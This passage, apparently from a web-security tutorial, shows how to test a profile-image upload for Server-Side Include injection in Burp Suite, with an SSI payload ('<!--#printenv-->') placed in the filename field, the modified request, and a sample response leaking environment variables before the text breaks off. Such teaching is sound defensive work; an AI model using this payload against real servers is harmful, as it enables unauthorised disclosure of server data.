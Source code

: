 **Burp Suite Request Example for File Upload:**

**Request Intercepted in Burp Suite:**

```markup
POST /upload-profile HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5lLiyqMk7wej39ti
Content-Length: 1234

------WebKitFormBoundary5lLiyqMk7wej39ti
Content-Disposition: form-data; name="profile_image"; filename="user-profile.jpg"
Content-Type: image/jpeg

<binary data here>
------WebKitFormBoundary5lLiyqMk7wej39ti--
```

In this case, the `profile_image` parameter might be used on the server side to dynamically generate a page or profile view for the user. The parameter could be passed to an SSI directive, and if **input sanitization** is not properly implemented, an attacker could inject SSI commands into the filename parameter.

**Injecting SSI Payload:**

In Burp Suite, you could modify the `filename` field to contain an SSI injection payload.

**Example SSI Payload:**

```
user-profile.jpg<!--#printenv-->
```

**Modified Request in Burp Suite:**

```markup
POST /upload-profile HTTP/1.1
Host: example.com
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5lLiyqMk7wej39ti
Content-Length: 1234

------WebKitFormBoundary5lLiyqMk7wej39ti
Content-Disposition: form-data; name="profile_image"; filename="user-profile.jpg<!--#printenv-->"
Content-Type: image/jpeg

<binary data here>
------WebKitFormBoundary5lLiyqMk7wej39ti--
```

#### **2. Analyzing the Response**

After sending the modified request, the server might include the environment variables in its response if the injection was successful.

**Response:**

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 567

<html>
<head><title>Profile - User</title></head>
<body>
  <h1>User Profile</h1>
  <div class="profile-image">
    <img src="/uploads/user-profile.jpg" alt="Profile Image">
  </div>
  <pre>
    SERVER_SOFTWARE=Apache/2.4.41 (Unix)
```